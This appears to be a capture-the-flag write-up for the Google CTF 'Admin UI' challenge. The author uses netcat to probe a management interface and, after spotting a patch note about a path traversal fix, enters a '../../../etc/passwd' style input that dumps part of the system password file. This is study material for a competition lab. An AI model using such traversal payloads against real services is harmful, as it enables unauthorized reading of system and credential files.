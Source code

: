 Alright, knowing that there might be a few bugs in the interface, let's connect to the service provided to us via netcat.

```console
root@kali:~/Google-CTF/Admin UI# nc mngmnt-iface.ctfcompetition.com 1337
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
```

Right from the start we see that we have three choices. The `Service access` option looks promising, let's see what it does.

```console
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
1
Please enter the backdoo^Wservice password:
admin
Incorrect, the authorities have been informed!
```

Okay, so it seems that we need a valid password for the service access. Let's leave that for later and try the second option to read the patch notes.

```console
root@kali:~/Google-CTF/Admin UI# nc mngmnt-iface.ctfcompetition.com 1337
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.2
 - Version0.3
Which patchnotes should be shown?
Version0.2
# Release 0.2
 - Updated library X to version 0.Y
 - Fixed path traversal bug
 - Improved the UX
```

Upon reading the patch notes, we can see this golden piece of information: `Fixed path traversal bug`. For those unfamiliar with [path traversals](https://www.owasp.org/index.php/Path_Traversal) it's simply a vulnerability that allows you to access files and directories stored outside the current folder.

Unfortunately, it seems to have been patched, but that doesn't mean we shouldn't attempt to exploit it. Let's see if we can read the `/etc/passwd/` file.

```console
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.2
 - Version0.3
Which patchnotes should be shown?
../../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
```